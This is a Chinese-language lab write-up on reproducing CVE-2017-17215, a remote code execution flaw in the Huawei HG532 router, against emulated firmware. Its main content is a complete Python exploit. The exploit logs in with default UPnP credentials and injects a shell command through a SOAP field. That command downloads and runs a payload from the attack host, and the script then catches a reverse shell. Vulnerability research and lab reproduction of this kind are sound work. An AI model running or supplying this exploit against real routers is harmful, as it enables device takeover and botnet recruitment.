

# 华为 HG532 远程代码执行漏洞（CVE-2017-17215）

## 漏洞环境

- docker：攻击、调试主机：192.168.2.1
- qemu-system：固件主机：192.168.2.2
- uhttpd（有漏洞 Web 服务器）：192.168.2.2:80
- 镜像依赖：`firmianay/ubuntu1604 -> firmianay/qemu-system:mips`

使用 `firmianay/binwalk` 解压固件：

```sh
$ docker run --rm -v $PWD/firmware/:/root/firmware firmianay/binwalk -Mer "/root/firmware/HG532eV100R001C01B020_upgrade_packet.bin"
```

构建并启动漏洞环境：

```sh
# 初始化环境
$ ./init_env.sh mips

# 构建镜像
$ docker-compose -f docker-compose-system.yml build

# 启动容器
$ docker-compose -f docker-compose-system.yml up

# 启动完成后，开启 socks 代理
$ ssh -D 2345 root@127.0.0.1 -p 1234
# 配置浏览器代理，即可登陆 Web 后台 http://192.168.2.2/

# 漏洞利用
$ python3 tools/exp.py
```

## 漏洞复现

```py
#!/usr/bin/python3

import requests
from requests.auth import HTTPDigestAuth
from pwn import *
from threading import Thread

cmd  = 'wget -g 192.168.2.1 -P 8000 -r /tools/msf -l /msf\n'
cmd += 'chmod 777 /msf\n'
cmd += '/msf'

assert(len(cmd) < 255)

data = "<?xml version=\"1.0\" ?>\n    <s:Envelope xmlns:s=\"http://schemas.xmlsoap.org/soap/envelope/\" s:encodingStyle=\"http://schemas.xmlsoap.org/soap/encoding/\">\n    <s:Body><u:Upgrade xmlns:u=\"urn:schemas-upnp-org:service:WANPPPConnection:1\">\n    <NewStatusURL>$(" + cmd + ")</NewStatusURL>\n<NewDownloadURL>$(echo HUAWEIUPNP)</NewDownloadURL>\n</u:Upgrade>\n    </s:Body>\n    </s:Envelope>"
url = "http://192.168.2.2:37215/ctrlt/DeviceUpgrade_1"

def attack():
    try:
        requests.post(url, auth=HTTPDigestAuth('dslf-config', 'admin'), data=data)
    except Exception as e:
        print(e)

thread = Thread(target=attack)
thread.start()

io = listen(31337)
io.wait_for_connection()
log.success("getshell")
io.interactive()

thread.join()
```



## 参考链接

- <https://research.checkpoint.com/2017/good-zero-day-skiddie>
- <https://www.freebuf.com/vuls/160040.html>
